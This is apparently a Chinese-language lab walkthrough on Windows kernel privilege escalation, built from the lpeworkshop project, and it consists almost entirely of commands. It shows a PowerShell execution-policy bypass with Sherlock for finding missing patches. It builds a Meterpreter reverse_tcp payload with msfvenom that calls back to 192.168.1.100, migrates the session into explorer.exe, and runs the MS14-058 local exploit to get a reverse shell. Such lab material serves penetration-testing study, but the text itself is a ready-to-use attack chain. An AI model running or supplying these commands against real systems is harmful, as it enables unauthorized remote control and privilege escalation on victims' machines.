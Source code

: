 ```yaml
---
title: windows内核提权
categories:
- windows
tags:
- windows
---
```

参考资料：
- [github项目lpeworkshop](https://github.com/sagishahar/lpeworkshop)
- [youtubu视频](https://www.youtube.com/watch?v=HTM-BavQvs4&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=1)

【windows】
```
powershell -nop -ep bypass
Import-Module C:\Users\whale\Desktop\Tools\Sherlock\Sherlock.ps1
Find-AllVulns
```
【kali】
```
msfconsole
handler -H 192.168.1.100 -P 4444 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
```
【windows】
拷贝payload.exe并运行

【kali】
```
sessions -i 1
run migrate -n explorer.exe
getuid  【win-u8oiu3qm15c\whale】
background
use exploit/windows/local/ms14_058_track_popup_menu
show options
set session 1
show target
set target 1
set payload generic/shell_reverse_tcp
set lhost 192.168.1.100
set lport 4455
run
whoami
```
在b站上传了[演示视频](https://www.bilibili.com/video/av88180824/)
